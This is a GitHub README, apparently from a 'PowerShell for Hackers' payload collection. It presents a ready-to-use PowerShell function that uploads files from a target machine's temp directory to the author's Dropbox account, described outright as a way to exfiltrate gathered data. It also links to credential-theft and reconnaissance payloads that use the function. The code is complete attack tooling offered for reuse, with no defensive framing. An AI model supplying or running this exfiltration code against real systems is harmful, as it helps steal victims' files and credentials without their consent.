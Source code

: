 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# DropBox-Upload

## Description

This function is used to exfiltrate gathered data to DropBox 

## The Function

### [DropBox-Upload] 

First off for this function to work you need to have a DropBox account. Make one [HERE](https://www.dropbox.com).

Follow this [GUIDE](https://developers.dropbox.com/oauth-guide) for setting up your DropBox account for uploads

Use the following syntax for your upload:

```
DropBox-Upload -FileName "file.txt"

or

"file.txt" | DropBox-Upload
```

Make sure to plug in your newly aquired DropBox token in the $DropBoxAccessToken variable below

(this function will exfiltrate a file from your targets temp directory so make sure you save your aquired data to the same directory)

```
function DropBox-Upload {

[CmdletBinding()]
param (
	
[Parameter (Mandatory = $True, ValueFromPipeline = $True)]
[Alias("f")]
[string]$SourceFilePath
) 
$DropBoxAccessToken = "YOUR-DROPBOX-ACCESS-TOKEN-HERE"   # Replace with your DropBox Access Token
$outputFile = Split-Path $SourceFilePath -leaf
$TargetFilePath="/$outputFile"
$arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
$authorization = "Bearer " + $DropBoxAccessToken
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
$headers.Add("Authorization", $authorization)
$headers.Add("Dropbox-API-Arg", $arg)
$headers.Add("Content-Type", 'application/octet-stream')
Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>

